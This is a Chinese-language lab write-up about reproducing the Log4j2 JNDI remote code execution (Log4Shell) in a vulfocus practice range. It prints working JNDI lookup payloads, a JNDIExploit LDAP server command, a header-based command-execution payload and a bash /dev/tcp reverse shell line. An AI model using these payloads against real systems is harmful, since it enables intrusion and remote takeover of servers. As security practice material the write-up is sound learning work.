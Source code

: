 想参照这篇文章复现一下log4j2反弹shell  
https://blog.csdn.net/m0_56773673/article/details/122300927

本想使用vulfocus的在线靶场（vulfocus/log4j2-rce-2021-12-09:1），结果环境启动后，payload打一下，环境崩一下，好不容易环境不崩了，payload放到get请求里，返回400，payload放到post请求里，返回405，心好累，还是参照复现文章中的环境自己搭吧

使用kali系统，apt update发现非常慢，先更新下源  
参见：https://blog.csdn.net/qq_33331244/article/details/114656949

docker pull vulfocus/log4j2-rce-2021-12-09的时候非常慢，等了好半天都不行，突然想到，是不是docker镜像源的问题，修改镜像源后，不到1分钟就pull完成  
修改镜像源参见：https://blog.csdn.net/qq_29924795/article/details/104483435

本地搭建完环境，发现环境和在线靶场一样，并不是文章中的环境，难道docker镜像升级了，我靠。。

环境就这样了，还是想想payload怎么打吧，payload放入get请求中返回400，payload放入post请求中返回405，还是不行啊，查阅下vulfocus这个靶场别人怎么打的，突然发现，payload是放入get请求中，但需要url编码下，我怎么忘记url编码了，大脑好迟钝  
参见：https://blog.csdn.net/weixin_45632448/article/details/124149561

赶紧改成url编码的形式测试一下，结果还是不行，测了几次，都是不行，突然想到，是不是本地的docker镜像不出网啊，进入docker镜像内，发现各种命令都被阉割了，心再次好累。。

还是用在线靶场试一下吧，如果在线靶场可以，那应该就是本地docker镜像不出网，启动在线靶场，打了一下，dns平台收到请求了，天啦撸，终于行啦
![image](./image/01.png)

折腾了一圈，最后用的还是在线靶场。。。不过还好，这过程也学到不少

经测试，如下三种形式payload都可以
```
${jndi:ldap://de63d35d.dns.1433.eu.org/ttt}
${jndi:ldap://de63d35d.dns.1433.eu.org/}
${jndi:ldap://de63d35d.dns.1433.eu.org}
```

下面尝试执行命令，服务端执行
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 0.0.0.0 -l 1389 -p 3456
```
其中JNDIExploit-1.2-SNAPSHOT.jar是魔改过的（也可以使用：[https://github.com/welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)）

payload处执行如下（这是一个有回显的payload）
```
${jndi:ldap://0.0.0.0:1389/TomcatBypass/TomcatEcho}
```
并添加一个http头
```
WWW-Authenticate: whoami
```
可以看到成功执行了命令  
![image](./image/02.png)

尝试反弹shell
```
WWW-Authenticate: bash -c 'exec bash -i &>/dev/tcp/0.0.0.0/1234 <&1'
```
可以看到，成功反弹了shell
![image](./image/03.png)